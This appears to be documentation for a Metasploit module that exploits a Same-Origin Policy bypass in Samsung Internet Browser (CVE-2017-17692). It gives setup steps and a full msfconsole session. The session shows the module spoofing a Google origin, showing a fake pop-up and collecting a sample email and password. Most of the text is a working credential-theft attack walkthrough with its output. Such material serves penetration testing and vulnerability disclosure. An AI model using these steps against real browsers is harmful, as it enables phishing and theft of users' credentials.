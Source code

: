 ## Description
This module takes advantage of a Same-Origin Policy (SOP) bypass vulnerability in the Samsung Internet Browser (CVE-2017-17692), a popular mobile browser shipping with Samsung Android devices. By default, it initiates a redirect to a child tab, and rewrites the innerHTML to gather credentials via a fake pop-up and the gather credentials is stored in `creds`

## Vulnerable Application
This Modules was tested on Samsung Internet Browser 5.4.02.3 during development of this module.

## Verification Steps
1. Start `msfconsole -q`
2. `use auxiliary/gather/samsung_browser_sop_bypass`
3. `set SRVHOST`
4. `set SRVPORT`
5. `set URIPATH`
6. `set TARGET_URL`
5. `run`

## Scenarios
```
$ sudo msfconsole -q 
msf > use auxiliary/gather/samsung_browser_sop_bypass 
msf auxiliary(samsung_browser_sop_bypass) > set SRVHOST 192.168.1.104
SRVHOST => 192.168.1.104
msf auxiliary(samsung_browser_sop_bypass) > set SRVPORT 9090
SRVPORT => 9090
msf auxiliary(samsung_browser_sop_bypass) > set URIPATH /
URIPATH => /
msf auxiliary(samsung_browser_sop_bypass) > set TARGET_URL https://www.google.com/csi
TARGET_URL => https://www.google.com/csi
msf auxiliary(samsung_browser_sop_bypass) > run
[*] Auxiliary module execution completed
msf auxiliary(samsung_browser_sop_bypass) > 
[*] Using URL: http://192.168.1.104:9090/
[*] Server started.
[*] 192.168.1.101: Request 'GET /'
[*] 192.168.1.101: Attempting to spoof origin for https://www.google.com/csi
[*] 192.168.1.101: Request 'GET /favicon.ico'
[*] 192.168.1.101: Attempting to spoof origin for https://www.google.com/csi
[*] 192.168.1.101: Request 'GET /favicon.ico'
[*] 192.168.1.101: Attempting to spoof origin for https://www.google.com/csi
[+] 192.168.1.101: Collected credential for 'https://www.google.com/csi' emailID:MyStrongPassword

msf auxiliary(samsung_browser_sop_bypass) > creds 
Credentials
===========

host            origin          service          public          private                                                            realm                       private_type
----            ------          -------          ------          -------                                                            -----                       ------------
                                                 emailID         MyStrongPassword                                                   https://www.google.com/csi  Password

msf auxiliary(samsung_browser_sop_bypass) > 
```

## Demos

Working of MSF Module: `https://youtu.be/ulU98cWVhoI` 

Vulnerable Browser: `https://youtu.be/lpkbogxJXnw`
